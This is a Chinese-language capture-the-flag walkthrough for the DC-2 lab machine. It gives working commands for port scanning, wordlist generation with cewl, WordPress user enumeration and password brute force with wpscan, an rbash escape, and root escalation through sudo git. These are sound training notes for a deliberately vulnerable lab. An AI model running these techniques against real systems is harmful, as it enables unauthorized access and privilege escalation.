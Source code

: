 
# 0x00环境

攻击机：kali（192.168.1.28）

靶机：DC-2（192.168.1.10）


# 0x01实战


## 端口扫描

```
nmap -sV -A 192.168.1.10 -p-
```

![image-20220110135337058.png](./assets/1652256082063-a1471140-047f-476a-b279-1b5e885bf8e0.png)

可以看到开放了80端口HTTP服务，7744端口SSH服务


## flag1

访问HTTP服务，在页面发现flag1

![image-20220110135537164.png](./assets/1652256089511-7ada5468-5c38-41e4-9ba6-2f4e9f9d4ca6.png)


## flag2

flag1提示我们`Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.`那么我们就提示使用cewl来生成字典

[什么是cewl？点这里](https://www.codercto.com/a/44828.html)

```
cewl dc-2 > password
```

![image-20220110135843819.png](./assets/1652256100054-63359d9a-f1f9-4147-8bb9-0f68892e628e.png)

有字典就想到爆破，提到爆破就想到后台，对网站进行目录扫描

![image-20220110140801697.png](./assets/1652256102983-f45ab646-43a0-4dc7-8e59-3219d5939e6e.png)

在浏览网站的同时我们也可以发现网站是使用WordPress搭建的

![image-20220110140934363.png](./assets/1652256107500-9411b031-4fd6-430f-bbd6-f0c3bc13c07e.png)

wpscan是专门扫描检测wordpress搭建的工具来查看是否存在已知漏洞，使用wpscan进行扫描

[什么是wpscan？点这里](https://blog.csdn.net/qq_43168364/article/details/112132186)

wordpress信息扫描

```
wpscan --url dc-2
```

扫描出wordpress的版本，目标IP等信息

![image-20220110141539982.png](./assets/1652256111275-06893757-73df-435e-a819-c8684396989c.png)

使用wpscan进行用户枚举

```
wpscan --url dc-2 -e u
```

![image-20220110141646806.png](./assets/1652256115247-4ddbaa7f-7889-4baa-9d6a-eb6cc543dbc6.png)

成功得到admin、jerry、tom三个账户，创建一个users文件将用户名存入，并使用前面得到的password进行爆破

```
wpscan --url dc-2 -U users -P password
```

![image-20220110142157641.png](./assets/1652256118725-9aa0a14f-6a76-4db0-81da-b6a2da45693a.png)

```
jerry / adipiscing
tom / parturient
```

得到jerry和tom的密码，登录后台，找到flag2

![image-20220110142351288.png](./assets/1652256122170-1f96f2b7-434c-4a64-a503-6f99e0eaedea.png)


## flag3

flag2提示我们`If you can't exploit WordPress and take a shortcut, there is another way.`找另一个突破口，在前面我们扫描出7744端口SSH服务，尝试登录。

```
ssh tom@192.168.1.10 -p 7744
```

成功使用tom账户登录并找到flag3

![image-20220110143224280.png](./assets/1652256127489-2fd0d389-09aa-43f4-8965-6076e36381a0.png)

查看flag3

![image-20220110143530438.png](./assets/1652256130710-b1d1a488-6711-470c-8576-9f78d7a48021.png)

可以看到使用了rbash(restricted bash，即受限制的 bash。其可以用作中转服务器，或者仅使用 ssh 来访问网页等等)来限制可以使用的命令。尝试绕过rbash

```
BASH_CMDS[a]=/bin/bash
a
/bin/bash
export PATH=PATH:/sbin:/bin
```

再次查看flag3

![image-20220110144754222.png](./assets/1652256134064-0d8b4ff9-24df-415d-b156-7219bece19a3.png)

成功得到flag3


## flag4

flag3提示我们`Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.`可怜的老汤姆总是追杰瑞，根据这句话想到flag4可能是在jerry目录里面

![image-20220110145205733.png](./assets/1652256137511-472f537c-d03b-48bf-864d-000341688afe.png)

成功得到flag4


## final-flag

通过查看/etc/passwd文件发现jerry用户拥有正常的bash

![image-20220110145959070.png](./assets/1652256140662-83620463-e9c5-407f-9c8f-885aefc7bd54.png)

切换到jerry用户并尝试提权

![image-20220110150131798.png](./assets/1652256143809-1e42780b-e2eb-4666-9cf1-eeeda43e85d8.png)

提权失败，但是我们可以无密码使用root权限的命令，使用[git提权](https://gtfobins.github.io/gtfobins/git/)

输入命令`sudo git help config`之后直接在出现的help界面，输入 `!/bin/bash`，成功提权

![image-20220110150747962.png](./assets/1652256147381-4ba75de9-1344-46fe-b760-478e97c06b42.png)

![image-20220110150813588.png](./assets/1652256150056-bb1cf5cd-3f00-4a24-b073-75e2c86e5050.png)

成功得到root权限

在root根目录找到final-flag

![image-20220110150932679.png](./assets/1652256157210-ee7a6f42-0a05-4407-ab78-677f9b022781.png)
